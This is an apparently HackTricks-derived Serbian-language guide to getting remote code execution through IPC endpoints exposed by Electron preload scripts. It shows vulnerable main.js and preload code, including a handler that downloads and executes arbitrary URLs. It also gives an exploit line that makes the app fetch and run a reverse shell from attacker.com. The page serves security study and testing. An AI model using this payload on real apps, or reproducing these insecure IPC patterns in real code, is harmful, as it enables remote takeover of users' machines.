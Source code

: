 # Electron contextIsolation RCE putem IPC

{{#include ../../../banners/hacktricks-training.md}}

Ako preload skripta izlaže IPC krajnju tačku iz main.js datoteke, proces renderovanja će moći da joj pristupi i ako je ranjiv, RCE bi mogao biti moguć.

**Većina ovih primera je preuzeta odavde** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Pogledajte video za dodatne informacije.

## Primer 0

Primer sa [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (imate ceo primer kako je MS Teams zloupotrebljavao XSS za RCE u tim slajdovima, ovo je samo vrlo osnovni primer):

<figure><img src="../../../images/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Primer 1

Pogledajte kako `main.js` sluša na `getUpdate` i **preuzima i izvršava bilo koju URL** koja se prosledi.\
Pogledajte takođe kako `preload.js` **izlaže bilo koji IPC** događaj iz main.
```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
console.log("getUpdate: " + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
})

mainWindow.webContents.session.on(
"will-download",
(event, item, webContents) => {
console.log("downloads path=" + app.getPath("downloads"))
console.log("mainWindow.download_url=" + mainWindow.download_url)
url_parts = mainWindow.download_url.split("/")
filename = url_parts[url_parts.length - 1]
mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
console.log("downloadPath=" + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on("updated", (event, state) => {
if (state === "interrupted") {
console.log("Download is interrupted but can be resumed")
} else if (state === "progressing") {
if (item.isPaused()) console.log("Download is paused")
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once("done", (event, state) => {
if (state === "completed") {
console.log("Download successful, running update")
fs.chmodSync(mainWindow.downloadPath, 0755)
var child = require("child_process").execFile
child(mainWindow.downloadPath, function (err, data) {
if (err) {
console.error(err)
return
}
console.log(data.toString())
})
} else console.log(`Download failed: ${state}`)
})
}
)
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
Eksploatacija:
```html
<script>
electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```
## Primer 2

Ako preload skripta direktno izlaže renderer-u način da pozove `shell.openExternal`, moguće je dobiti RCE.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url)
}
```
## Primer 3

Ako skripta za pre-load otkriva načine za potpunu komunikaciju sa glavnim procesom, XSS će moći da pošalje bilo koji događaj. Uticaj ovoga zavisi od onoga što glavni proces otkriva u smislu IPC.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
{{#include ../../../banners/hacktricks-training.md}}
